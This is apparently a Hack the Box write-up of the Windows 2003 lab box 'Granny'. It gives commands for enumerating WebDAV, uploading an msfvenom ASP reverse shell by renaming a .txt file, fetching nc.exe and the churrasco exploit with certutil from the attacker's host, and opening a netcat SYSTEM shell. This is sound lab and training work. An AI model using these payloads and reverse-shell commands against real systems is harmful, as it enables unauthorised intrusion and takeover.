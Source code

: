 ```yaml
---
title: Granny
tags: windows
description: Write-up for Hack the Box - Granny
---
```


![image](assets/79370331-795c6200-7f20-11ea-894b-9e65b9ef47a0.png)

## Overview
Granny is a Windows 2003 box running IIS 6.0 and webdav. Webdav allowed anonymous uploads but required a bypass to upload an asp reverse shell. Once the shell was uploaded I got initial foothold by executing the uploaded file. I used an exploit called churrasco to call back to my machine with a shell as 'nt authority\system'

## Enumeration

**Software**
* Microsoft(R) Windows(R) Server 2003, Standard Edition
* Front Page Version - 5.0.2.6790

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.15 -oN /mnt/data/boxes/granny/_full_tcp_nmap.txt
```
* 80/tcp - http

![image](assets/81867727-2eddfd80-953f-11ea-873a-b303b6b95bed.png)

**DavTest**

```
davtest -url http://10.10.10.15
```

![image](assets/81869423-0572a100-9542-11ea-95a2-c5f649b668a9.png)

## Steps (user)

Browsing to http://10.10.10.15 showed the default "Under Contruction" page and no other useful information. 

According to the nmap scan this server was running webdav so I ran a scan with [davtest](https://github.com/cldrn/davtest) which  tests uploading different executable file types. There were quite a few different files that could be uploaded and only html and txt could be executed.

I connected to the server using a webdav client called cadaver. After running the help command I learned that the command "MOVE" was available. Using MOVE I was able to get around the restrictons by uploading a file with a .txt extension and renaming it to asp.


I created an asp reverse shell with msfvenom and output it to rshell.txt and started a netcat listener (rlwrap nc -lvnp 4200).

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.24 lport=4200 -f asp > rshell.txt
```

I then connected to webdav via cadaver and uploaded rshell.txt 

```
cadaver 10.10.10.15
put rshell.txt
```

![image](assets/81870929-de699e80-9544-11ea-8de6-b643cc9fe7af.png)

With the file uploaded, I used 'move' to rename the file from rshell.txt to rshell.asp

```
move rshell.txt rshell.asp
```

![image](assets/81871996-e75b6f80-9546-11ea-89e8-a2868a23e9ad.png)

I browsed to http://10.10.10.15/rshell.asp and received a shell as 'nt authority\network service'

![image](assets/81871200-559f3280-9545-11ea-876f-21b5cdb1355d.png)

## Steps (root/system)

The systeminfo command showed that only one hotfix was installed. I used a tool called Windows Exploit Suggester to identify which exploits the box was vulnerable to. The tool requires the output of the systeminfo command which I pasted to a file called "sysinfo.txt"

> [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) github repo.

```
./windows-exploit-suggester.py -l --database 2019-11-17-mssb.xls --systeminfo sysinfo.txt
```

![image](assets/81871704-5a181b00-9546-11ea-91ef-257cabe4bb2c.png)

After not having any much luck with the windows-exploit suggester results, I tried an exploit called churrasco.

> Additional info about [churrasco](https://www.exploit-db.com/exploits/6705)

First I downloaded the exploit from Re4son's github repo

```
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```

In prepration to use the exploit to create a reverse shell with netcat, I copied the nc.exe binary to my working directory.

```
cp ~/tools/windows-binaries/nc.exe .
```

I started a reverse listener (nc -lvnp 42301) and started a python http server

```
python3 -m http.server 80
```

I downloaded the netcat and the exploit to the local box

```
certutil -urlcache -split -f http://10.10.14.24/nc.exe
certutil -urlcache -split -f http://10.10.14.24/churrasco.exe
```

The exploit was run, specifying the netcat command with my box's IP/port resulting in a shell as 'nt authority\system'

```
churrasco.exe "nc -e cmd 10.10.14.24 4201"
```

![image](assets/81998378-5953b780-9620-11ea-8bdc-e0ad87bceefa.png)
